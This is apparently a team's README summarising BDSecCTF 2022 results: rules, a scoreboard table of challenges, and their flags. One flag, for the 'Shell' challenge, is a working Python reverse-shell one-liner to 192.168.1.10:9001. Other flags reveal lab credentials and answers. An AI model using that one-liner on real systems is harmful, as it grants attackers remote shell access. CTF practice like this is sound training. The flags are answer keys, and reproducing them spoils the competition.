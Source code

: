 # BDSecCTF - Write Up

## Context
The goal is to solve cybersecurity tests in various categories. The validation of a challenge is done by retrieving a string called flag which confirms the fact that you have passed the associated test and allows you to obtain the associated points.

## Rules
- Time : 24h (07/20/22 17h - 07/21/22 17h (UTC+2) )
- Max Pers per Team : 5
- Submit Limit : 30 per chall

## Results 
<p align='center'>

| ![Screenshot](Stats.png)            | ![Screenshot](Scoreboard.png)                                                                                                           |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
</p>

## Challenges

| Chall Name                                                       | Category     | Author     | Points | Completed | Flag |
|------------------------------------------------------------------|:-------------:|:----------:|:--------------:|:------:|:---------------------------------:|
| Sound's Good                                    | Stegano          | pmsiam   | 50     | ✘ | `` |
| Deep Dive Into It !!                                           | Stegano        | pmsiam   | 250     | ✘ | `` |
| PwnRace                                    | PWN        | froghunter   | 200     | ✔ | `XXCTF{Its_a_TEst}` |
| BDSec License Checker 0x1                                    | Reverse        | NomanProdhan   | 50     | ✘ | `BDSEC{l1c3n53_ch3ck3r_0x1_2022}` |
| shashdot                                    | Reverse        | froghunter   | 50     | ✘ | `` |
| Flag Box                                    | Reverse        |  marufmurtuza   | 100     | ✔ | `` |
| Simple Math                                    | Reverse        |  marufmurtuza   | 100     | ✔ | `` |
| Poster                                    | Reverse        |  froghunter   | 100     | ✔ | `` |
| BDSec License Checker 0x03                                    | Reverse        |  NomanProdhan   | 150     | ✘ | `BDSEC{iTs_lIcEnsE_cHeCker_tHrEE_bDsEc}` |
| BDSec License Checker 0x02                                    | Reverse        |  NomanProdhan   | 200     | ✘ | `` |
| Crypto Code                                    | Crypto        | 1xR1FAT   | 25     | ✔ | `BDSEC{cryp70_and_pyth0n_ar3_aw3s0me}` |
| [VIPx01](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/VIPx01)                                    | Crypto        | 1xR1FAT   | 25     | ✔ | `BDSEC{crypt0_ar3_aw3s0m3}` |
| VIPx02                                    | Crypto        | 1xR1FAT   | 25     | ✘ | `` |
| [Fake](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Fake)                                    | Crypto        | 1xR1FAT   | 50     | ✔ | `BDSEC{do3sn't_b3li3ve_1n_unkn0wn_mail}` |
| [Basically RSA](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Basically%20RSA)                                    | Crypto        | dyn   | 100     | ✔ | `DSEC{r54_i5_fUn_r16h7?}` |
| Dominoes                                    | Crypto        | dyn   | 50     | ✘ | `BDSEC{n0t_50_e45y_hUh?_433}` |
| Loop Lover                                    | Crypto        | dyn   | 100     | ✘ | `BDSEC{ju57_L00p_m3_4w4y}` |
| Jungle Templating                                    | WEB        |  0xmahi   | 100     | ✔ | `BDSEC{Y3Y_7H1515_7H3_F146}` |
| Awesome Note Keeping                                    | WEB        |  NomanProdhan   | 100     | ✔ | `BDSEC{tHe_n0t3_K33p1n6_4W350M3_N5}` |
| Knight Squad Shop                                    | WEB        |  froghunter   | 100     | ✔ | `` |
| [Find The Cost](https://github.com/Beel0w/BDSecCTF/tree/main/Programming/Find%20the%20Cost)                                    | Programing        | marufmurtuza| 100     | ✔ | `BDSEC{35,47}` |
| Find The Masterpiece                                    | OSINT        | marufmurtuza   | 50     | ✔ | `BDSEC{he’s_a_pirate,2003}` |
| [Find Rejvi](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20Rejvi)                                    | OSINT        | NomanProdhan   | 70     | ✔ | `BDSEC{yoU_goT_m3__oS1nT_I5_fUn_r1Gh7}` |
| Find Me Inside | OSINT        | Axif   | 50     | ✔ | `BDSEC{M33m_the_butterfly_goes_up_up_and_away}` |
| [Message of Hufflepuff](https://github.com/Beel0w/BDSecCTF/tree/main/Misc/Message%20of%20Hufflepuff)                                    | Misc        | marufmurtuza   | 50     | ✔ | `BDSEC{Huffm@n_Enc0d1ng_go7_D3COD3D}` |
| Victim & Attacker | Networking        | TareqAhamed   | 25     | ✔ | `BDSEC{192.168.1.13_192.168.1.10}` |
| Which FTP ? | Networking        | marufmurtuza   | 50     | ✔ | `BDSEC{vsFTPd_3.0.3}` |
| FTP Creads | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{ftpadmin_ftpadmin}` |
| Uploaded File | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{/files/.hacker.not}` |
| Log Filer | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{vsftpd.log}` |
| Project Incharge | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Loooon Looong | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{Thu_Jul_14_10:16:59}` |
| Administrator | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Shell | Networking        | TareqAhamed   | 50     | ✔ | <details><summary>`BDSEC{....`</summary>`BDSEC{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'}`</details> |
| Secret Key | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Database Admin | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{root_root}` |
| HostName | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{ftpadmin}` |
| CodeName | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{xenial}` |
| Server Info | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Service Exploit | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{polkit}` |
| Exploit Exploit Exploit | Networking        |  marufmurtuza   | 50     | ✔ | `` |
| Vulnerable Service | Networking        | TareqAhamed   | 50     | ✔ | `` |
| msg.txt | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Attacker | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{N4N0M473}` |
| Server User's | Networking        | TareqAhamed   | 50     | ✔ | `` |
 
Credits : [Beel0w](https://github.com/Beel0w)  
Last Edited on: 22/07/2022
  
